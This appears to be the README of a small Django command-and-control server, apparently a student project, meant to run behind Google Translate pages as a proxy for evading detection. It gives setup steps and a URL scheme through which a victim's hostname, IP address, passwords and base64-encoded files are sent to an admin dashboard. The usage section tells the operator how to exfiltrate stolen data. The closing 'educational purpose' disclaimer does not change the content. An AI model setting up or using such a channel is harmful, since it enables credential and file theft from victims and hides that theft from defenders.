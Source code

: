 # EFREI-C2-Example
A simple C2 meant to be used behind Google Translate Webpages as a proxy for data evasion.

## Requirements
- Python 3.x
- Django (https://www.djangoproject.com/download/)

## Setup
- Create an admin user: ``python manage.py createsuperuser --username <username>``
- Log on the admin dashboard at ``127.0.0.1:8000/admin``

## Use
- Data are collected directly from the URL
- simply send data to the base URL: ``http://127.0.0.1:8000/<hostname>/<ip>/<data_type>/<data>/<file_type>``
  - ``hostname`` is your victim hostname.
  - ``ip`` is your victim ip address.
  - ``data_type`` is the keyword you want to filter data. It can be for example a password type.
  - ``data`` is the content you want to exfiltrate. If it's a file, it can be encoded in base64 and decoded  automatically on the admin dashboard.
  - ``file_type`` is a flag to know if the exfiltrated data was a file or a string. It allows the admin dashboard to know if it has to decode the received data or not. **(OPTIONAL)**
# FOR EDUCATIONAL PURPOSE ONLY
